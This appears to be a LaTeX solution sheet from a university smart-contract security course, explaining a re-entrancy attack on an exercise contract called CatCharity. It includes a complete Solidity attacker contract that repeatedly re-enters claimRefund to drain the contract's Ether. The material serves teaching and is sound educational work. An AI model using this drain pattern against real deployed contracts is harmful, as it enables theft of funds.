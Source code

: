 \documentclass[12pt]{article}
\title{Smart Contracts Exercise 05: \\ Re-Entrancy -- Solution}
\author{}
\date{}
\begin{document}
\maketitle

\noindent
The solved exercise 5 can be found in this \href{https://gitlab.fel.cvut.cz/radovluk/smart-contracts-exercises/-/tree/main/05-Re-Entrancy/solution/solution-code?ref_type=heads}{GitLab repository}.

\subsection*{Task 1: Cat Charity Hijinks}

\begin{enumerate}
  \item The attacker sends a small donation to the \texttt{CatCharity} contract to record their donation.
  \item The attacker immediately calls the \texttt{claimRefund} function, triggering the re-entrancy vulnerability.
  \item While the \texttt{claimRefund} function is executing, the attacker's contract falls back into the \texttt{claimRefund} function multiple times, draining the \texttt{CatCharity} contract's Ether balance.
  \item This attack continues until the charity's balance is completely drained, and the funds are transferred to the attacker.
\end{enumerate}

\noindent
\begin{minipage}{\textwidth}
\begin{lstlisting}[language=Solidity]
contract CatAttacker {
    CatCharity public catCharity;

    constructor(address _catCharityAddress) {
        catCharity = CatCharity(_catCharityAddress);
    }

    /**
     * @notice Initiates the re-entrancy attack.
     * @dev We donate a small amount so that we (the Attacker contract)
     *      have a 'donation' recorded, then immediately claim the refund,
     *      re-entering until the charity's entire balance is drained.
     */
    function attack() external payable {
        // Step 1: Donate a tiny bit from this contract
        catCharity.donate{value: msg.value}();

        // Step 2: Start the refund loop
        catCharity.claimRefund();

        // Step 3: Send the money back to player
        (bool success, ) = msg.sender.call{value: address(this).balance}("");
        require(success, "Transfer failed");
    }

    // Fallback triggered whenever this contract receives Ether
    receive() external payable {
        // If there's still ETH left in the CatCharity, re-claim
        if (address(catCharity).balance > 0) {
            catCharity.claimRefund();
        }
    }
}
\end{lstlisting}
\end{minipage}
\end{document}
